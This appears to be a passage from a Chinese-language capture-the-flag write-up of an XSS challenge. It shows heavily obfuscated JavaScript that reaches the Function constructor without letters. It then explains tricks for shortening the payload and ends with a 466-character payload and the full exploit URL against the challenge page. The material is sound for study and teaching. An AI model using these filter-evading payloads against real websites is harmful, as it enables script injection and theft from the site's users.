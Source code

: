 \[\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]\`\_${\`e\`+31\[\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]}\`\[9\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[5\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[15\]\]\`36\`+\`${0/0}\`\[1\]+\`${e}\`\[21\]+\`${\[\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]}\`\[14\]+\`${e}\`\[21\]+\`${\`\`+{}}\`\[1\]+\`${\`\`+{}}\`\[5\]+\`${0/0}\`\[1\]+\`${\`\`+{}}\`\[6\]+\`${\`\`\[0\]}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`.\`+17\[\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]}\`\[9\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[5\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[15\]\]\`36\`+\`${0/0}\`\[1\]+\`${e}\`\[18\]+17\[\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]}\`\[9\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[5\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[15\]\]\`36\`+\`.\`+\`${e}\`\[18\]+\`${e}\`\[21\]+\`${\`\`\[0\]}\`\[5\]+\`${\`\`+{}}\`\[5\]+\`e\`+\`${\[\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]}\`\[14\]+1+\`${\[\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]}\`\[15\]+\`${\[\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]}\`\[15\]}\`\`\`

### 挑戰最短程式碼

可以執行任意程式碼之後，還有什麼可以玩呢？那就是挑戰最短的程式碼！試著把程式碼弄到最短看看。

可以想到的有：

1.不要用 ` ``[0]`拿到 undefined，而是用 `e[0]`，可以省一個字元  
2\. ` ``+{}` 來拿 `[object Object]` 其實多此一舉，用 `{}` 就好，省了三個字  
3\. 有可以用到 e 的地方盡量用到 e，因為程式碼會最少

再來我們本來是用 `[]['constructor']` 來拿到 function，這樣有點太長了，可以用很科學的方式來找出最短的：

找出來的冠軍是 `some`，可以拿來取代本來使用的 `[]['constructor']` 。

最後呢，因為我們不需要執行任意程式碼了，所以用 `alert(document.domain)` 就好，至於 `eval(name)` 的話雖然乍看之下更短，但因為要拿到 v 不容易，所以其實會花費更多字元。

底下是產生出來的結果，長度 466 個字：

length: 466  
\======= Payload =======  
\[\]\[\`${e}\`\[18\]+\`${e}\`\[1\]+\`${e}\`\[23\]+\`e\`\]\[\`${e}\`\[5\]+\`${e}\`\[1\]+\`${e}\`\[25\]+\`${e}\`\[18\]+\`${e}\`\[6\]+\`${e}\`\[13\]+\`${e\[0\]}\`\[0\]+\`${e}\`\[5\]+\`${e}\`\[6\]+\`${e}\`\[1\]+\`${e}\`\[13\]\]\`\_${\`${0/0}\`\[1\]+\`${e}\`\[21\]+\`e\`+\`${e}\`\[13\]+\`${e}\`\[6\]+\`${\[\]\[\`${e}\`\[18\]+\`${e}\`\[1\]+\`${e}\`\[23\]+\`e\`\]}\`\[13\]+\`${e\[0\]}\`\[2\]+\`${e}\`\[1\]+\`${e}\`\[5\]+\`${e\[0\]}\`\[0\]+\`${e}\`\[23\]+\`e\`+\`${e}\`\[25\]+\`${e}\`\[6\]+\`.\`+\`${e\[0\]}\`\[2\]+\`${e}\`\[1\]+\`${e}\`\[23\]+\`${0/0}\`\[1\]+\`${e\[0\]}\`\[5\]+\`${e}\`\[25\]+\`${\[\]\[\`${e}\`\[18\]+\`${e}\`\[1\]+\`${e}\`\[23\]+\`e\`\]}\`\[14\]}\`\` \`  
\======= URL =======  
https://challenge-0521.intigriti.io/captcha.php?c=\[\]\[\`${e}\`\[18\]%2b\`${e}\`\[1\]%2b\`${e}\`\[23\]%2b\`e\`\]\[\`${e}\`\[5\]%2b\`${e}\`\[1\]%2b\`${e}\`\[25\]%2b\`${e}\`\[18\]%2b\`${e}\`\[6\]%2b\`${e}\`\[13\]%2b\`${e\[0\]}\`\[0\]%2b\`${e}\`\[5\]%2b\`${e}\`\[6\]%2b\`${e}\`\[1\]%2b\`${e}\`\[13\]\]\`\_${\`${0/0}\`\[1\]%2b\`${e}\`\[21\]%2b\`e\`%2b\`${e}\`\[13\]%2b\`${e}\`\[6\]%2b\`${\[\]\[\`${e}\`\[18\]%2b\`${e}\`\[1\]%2b\`${e}\`\[23\]%2b\`e\`\]}\`\[13\]%2b\`${e\[0\]}\`\[2\]%2b\`${e}\`\[1\]%2b\`${e}\`\[5\]%2b\`${e\[0\]}\`\[0\]%2b\`${e}\`\[23\]%2b\`e\`%2b\`${e}\`\[25\]%2b\`${e}\`\[6\]%2b\`.\`%2b\`${e\[0\]}\`\[2\]%2b\`${e}\`\[1\]%2b\`${e}\`\[23\]%2b\`${0/0}\`\[1\]%2b\`${e\[0\]}\`\[5\]%2b\`${e}\`\[25\]%2b\`${\[\]\[\`${e}\`\[18\]%2b\`${e}\`\[1\]%2b\`${e}\`\[23\]%2b\`e\`\]}\`\[14\]}\`\`\`